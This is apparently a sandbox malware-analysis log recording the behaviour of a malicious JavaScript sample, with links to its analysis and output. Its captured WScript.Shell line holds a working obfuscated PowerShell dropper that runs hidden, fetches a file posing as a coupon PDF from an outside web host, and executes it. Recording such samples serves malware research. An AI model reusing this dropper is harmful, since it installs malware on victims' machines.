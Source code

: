     14 Dec 20:23:27 - WScript.Shell[2].Run(cmd.exe /c powershell.exe   -ExecutionPolicy  bypass    -noprofile   -windowstyle  hidden $migipk='^$';$kqevovde='^p';$unub='^a';$tygnefb='^t';$sbixeg='^h';$tecgerz='^=';$eryse='^(';$avkuvynb='^$';$qzarach='^e';$ciwyro='^n';$ulmezyq='^v';$ymqumnyzj='^:';$bmohetm='^t';$sideq='^e';$jevefbi='^m';$svepqa='^p';$ulvymu='^+';$kaqsa='^''';$izafso='^.';$wlohosky='^e';$silpox='^x';$aqselev='^e';$levfima='^''';$owaqij='^)';$omyjs='^;';$ahzujf='^(';$omitadk='^N';$arybom='^e';$usnakdipt='^w';$unar='^-';$zype='^O';$ezbaxnaj='^b';$otuxxep='^j';$iquxdo='^e';$uchaquf='^c';$ycydnez='^t';$ftyrbi='^ ';$uljenby='^S';$ywacjy='^y';$oxop='^s';$qibragd='^t';$ravafy='^e';$ogavo='^m';$evewzars='^.';$ygwavu='^N';$ulzuvuz='^e';$ulydo='^t';$irkufipd='^.';$abyhy='^W';$fdoggosdi='^e';$have='^b';$gyjacy='^c';$ywelzikl='^l';$mbiwja='^i';$ijif='^e';$soka='^n';$tdytkud='^t';$qubcagk='^)';$avmyf='^.';$kosev='^D';$lolrowbe='^o';$apas='^w';$yvbujo='^n';$otelwuw='^l';$dsobehhu='^o';$oqav='^a';$odbujqypz='^d';$elcyxcyh='^F';$kezdywt='^i';$hcogwo='^l';$jvuhyvj='^e';$afac='^(';$lvutykpu='^''';$qfyctyva='^h';$acwihge='^t';$fizju='^t';$npynep='^p';$ugnevlek='^:';$ugavcy='^/';$rfatcyw='^/';$dujy='^w';$parasy='^w';$opujy='^w';$gtupe='^.';$aprokpal='^k';$abwysy='^i';$agmif='^t';$nheqysje='^d';$ahybt='^o';$yskanagq='^o';$ajrewnasj='^r';$ebvonwukw='^s';$kcokiz='^.';$foby='^r';$mfobjof='^u';$ucim='^/';$xodedbi='^w';$xkyrniplo='^p';$nzolo='^-';$dqycoxo='^c';$cjyxkowm='^o';$wevcish='^n';$csipy='^t';$mvevdiz='^e';$ebezby='^n';$dpedga='^t';$olnozz='^/';$esgafa='^u';$ykix='^p';$quldar='^l';$egxex='^o';$zybgify='^a';$owbudlap='^d';$owlolo='^s';$osbuzbe='^/';$jytykq='^2';$vjesucle='^0';$alduzav='^1';$umijy='^4';$kicni='^/';$ywerho='^0';$murewpo='^1';$urufemc='^/';$ibqehr='^b';$yjixbu='^8';$vozu='^l';$uvaw='^k';$ubawak='^i';$ipfutem='^f';$rutod='^n';$ekaw='^z';$edtafta='^d';$inawy='^/';$ajfegqo='^C';$ufocu='^o';$equst='^u';$zohuza='^p';$dhawo='^o';$nwipikh='^n';$cywiw='^9';$qgochedw='^8';$fyndik='^5';$uqeda='^4';$juqaty='^.';$yftifoqw='^p';$sawvif='^d';$dtomu='^f';$yshyxik='^''';$pekretv='^,';$xxavludb='^$';$yrjely='^p';$enuke='^a';$xasmopo='^t';$osybho='^h';$zdomum='^)';$trawomo='^;';$loreh='^ ';$qalci='^S';$dqynnof='^t';$ppysy='^a';$zkytbeb='^r';$ovelf='^t';$lajkixa='^-';$fsebi='^P';$ukpab='^r';$lkura='^o';$rfukopn='^c';$ttawefa='^e';$preffojja='^s';$hlofejqu='^s';$yxnefka='^ ';$fwapywj='^$';$mydri='^p';$cape='^a';$ckukxoq='^t';$kbewifn='^h'; Invoke-Expression ($migipk+$kqevovde+$unub+$tygnefb+$sbixeg+$tecgerz+$eryse+$avkuvynb+$qzarach+$ciwyro+$ulmezyq+$ymqumnyzj+$bmohetm+$sideq+$jevefbi+$svepqa+$ulvymu+$kaqsa+$izafso+$wlohosky+$silpox+$aqselev+$levfima+$owaqij+$omyjs+$ahzujf+$omitadk+$arybom+$usnakdipt+$unar+$zype+$ezbaxnaj+$otuxxep+$iquxdo+$uchaquf+$ycydnez+$ftyrbi+$uljenby+$ywacjy+$oxop+$qibragd+$ravafy+$ogavo+$evewzars+$ygwavu+$ulzuvuz+$ulydo+$irkufipd+$abyhy+$fdoggosdi+$have+$gyjacy+$ywelzikl+$mbiwja+$ijif+$soka+$tdytkud+$qubcagk+$avmyf+$kosev+$lolrowbe+$apas+$yvbujo+$otelwuw+$dsobehhu+$oqav+$odbujqypz+$elcyxcyh+$kezdywt+$hcogwo+$jvuhyvj+$afac+$lvutykpu+$qfyctyva+$acwihge+$fizju+$npynep+$ugnevlek+$ugavcy+$rfatcyw+$dujy+$parasy+$opujy+$gtupe+$aprokpal+$abwysy+$agmif+$nheqysje+$ahybt+$yskanagq+$ajrewnasj+$ebvonwukw+$kcokiz+$foby+$mfobjof+$ucim+$xodedbi+$xkyrniplo+$nzolo+$dqycoxo+$cjyxkowm+$wevcish+$csipy+$mvevdiz+$ebezby+$dpedga+$olnozz+$esgafa+$ykix+$quldar+$egxex+$zybgify+$owbudlap+$owlolo+$osbuzbe+$jytykq+$vjesucle+$alduzav+$umijy+$kicni+$ywerho+$murewpo+$urufemc+$ibqehr+$yjixbu+$vozu+$uvaw+$ubawak+$ipfutem+$rutod+$ekaw+$edtafta+$inawy+$ajfegqo+$ufocu+$equst+$zohuza+$dhawo+$nwipikh+$cywiw+$qgochedw+$fyndik+$uqeda+$juqaty+$yftifoqw+$sawvif+$dtomu+$yshyxik+$pekretv+$xxavludb+$yrjely+$enuke+$xasmopo+$osybho+$zdomum+$trawomo+$loreh+$qalci+$dqynnof+$ppysy+$zkytbeb+$ovelf+$lajkixa+$fsebi+$ukpab+$lkura+$rfukopn+$ttawefa+$preffojja+$hlofejqu+$yxnefka+$fwapywj+$mydri+$cape+$ckukxoq+$kbewifn);;, 0, undefined)

**malwr.com:** https://malwr.com/analysis/OTU4YTAyMDgxYzI4NDdlMGI3MTlkNTQyMjc0YTNjZGY/

**Source code:** malware/20161214/5cf27448bf9355692a0448f41f65da625e876e91c66cf6f0a7f7127aed08087b.js

**Command:**

    node jailme.js -c ./config_wscript_only.json malware/20161214/5cf27448bf9355692a0448f41f65da625e876e91c66cf6f0a7f7127aed08087b.js

**Output:** [malware/20161214/5cf27448bf9355692a0448f41f65da625e876e91c66cf6f0a7f7127aed08087b.out](malware/20161214/5cf27448bf9355692a0448f41f65da625e876e91c66cf6f0a7f7127aed08087b.out)
